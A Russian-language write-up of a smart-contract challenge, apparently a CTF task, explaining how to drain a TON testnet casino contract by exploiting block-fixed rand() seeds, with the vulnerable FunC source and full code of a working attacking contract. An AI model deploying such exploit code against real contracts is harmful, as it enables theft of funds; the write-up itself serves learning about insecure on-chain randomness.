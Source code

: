 # 4-day
- Дали [контракт](https://testnet.tonviewer.com/kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX), который запущен по адресу `kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX`
- Известен исходный код контракта

```jsx
#include "imports/stdlib.fc";

const gas_cost = 10000000;

() send(slice addr, slice body, int grams) impure inline_ref {
  ;; int_msg_info$0 ihr_disabled:Bool bounce:Bool bounced:Bool src:MsgAddress -> 011000
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    slice msg = in_msg_full.begin_parse();
    int flags = msg~load_uint(4);
    slice source_address = msg~load_msg_addr();
    if (flags & 1) {
        return ();
    }
    if (rand(10) < 4) {
        if (msg_value * 2 < my_balance - gas_cost) {
            send(source_address, "you won", msg_value * 2);
        } else {
            send(source_address, "vault is empty", my_balance - gas_cost);
        }
        return ();
    }
}

```

Это казино, на нём 100 тонов и надо их всех выкачать

# Решение

Таск основывается на том, что ещё в первый день Вова вкинул, что он знает как взломать контракт Тимура и после этого Тимур дописал `randomize_lt()`

Сама по себе`rand(n)` является небезопасной функцией и работает следующим образом:

- `seed` в контракте определяется `hash(block_seed, account_address)`
- `block_seed` текущего блока знают только валидаторы, а мы этот сид никак узнать не можем

> [Therefore, to predict the result of the random() function in a smart contract, you just need to know the current seed of the block, which isn't possible if you're not a validator.](https://docs.ton.org/v3/guidelines/smart-contracts/security/random-number-generation#how-can-someone-predict-a-random-number)

Тем не менее, можно провести атаку на рандом в пределах одного блока

## Как работает атака?

1. Отправляем первую ставку в казино
2. Если выиграли (получили сообщение `You won`) → продолжаем спамить такие же ставки в тот же блок
3. Если не получили ответа → блок сменился, мы проиграли, останавливаем атаку.
4. Повторяем процесс на новом блоке, пока не обанкротим казино.

Когда казино обанкротилось, выводим деньги из атаковавшего контракта себе на основной аккаунт

## Почему это работает?

`seed` фиксирован в рамках одного блока и если одна ставка выйграла, то и всё ставки в текущем блоке выйграют

## Код атакующего контракта

Может быть не идеальным, но он работает

```jsx
#include "imports/stdlib.fc";

const admin_address = "0QCpmGaG1ypBqdY757UNTZphiXJOMu0bGPxumvjYTu4KEhDj"a;
const vova = "kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX"a;

() send_real_bet(slice addr, slice body, int grams) impure inline_ref {
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    if (in_msg_body.slice_empty?()) {
        return ();
    }

    int op = in_msg_body~load_uint(32);

    slice cs = in_msg_full.begin_parse();
    int flags = cs~load_uint(4);
    if (flags & 1) {
        return ();
    }
    slice source_address = cs~load_msg_addr();
    
    if (op == 0) {
        send_real_bet(vova, "auto try", 133700000);
    }
    if (op == 1) {
        send_real_bet(vova, "init try", 100000000);
    }
    ;; ручка для вывода денег
    if (op == 2) {
        if (equal_slices_bits(admin_address, source_address)) { 
            cell msg =  begin_cell()
                .store_uint(0x18, 6)
                .store_slice(source_address)
                .store_coins(0) 
                .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
                .store_uint(0, 32)
                .store_slice("money back")
            .end_cell();
            send_raw_message(msg, 128);
            return ();
        }
    }

    return ();
}
```

# Схема атаки (упрощённая)

В реальности будет в районе 500 транзакций в одной

![[scheme_attack.png]]
Узел A - мой основной аккаунт, который принудительно запускает всё с сообщением `init try`

Узел B - атакующий контракт, который понял, что в этом блоке у нас подходящий `seed`, поэтому начинаем атаковать отсылая сообщения `auto try`

Узел C - казино, принимает ставки и возвращает сообщения `you won` с выигрышем

Атака прекратится после первой неудачи, когда узел C не вернёт никакого ответа
